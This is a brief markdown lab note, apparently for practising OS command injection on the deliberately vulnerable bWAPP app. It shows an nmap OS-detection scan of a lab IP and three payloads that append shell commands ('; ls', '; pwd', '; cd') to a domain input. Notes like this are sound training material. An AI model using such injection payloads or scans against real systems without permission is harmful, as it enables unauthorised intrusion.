


# OS Command Injection


#### **Process:**
```plaintext
-----------------------------------------------------
1. Here we can directly check the Linux os command as we know bwapp server is 
running on linux
2. Or we can check its os via nmap .

```
#### **nmap**
```terminal
nmap -sV -O 192.168.56.101 -T4

```
#### **Payloads:**

```terminal
www.nsa.gov; ls
www.nsa.gov; pwd
www.nsa.gov; cd /directory

```

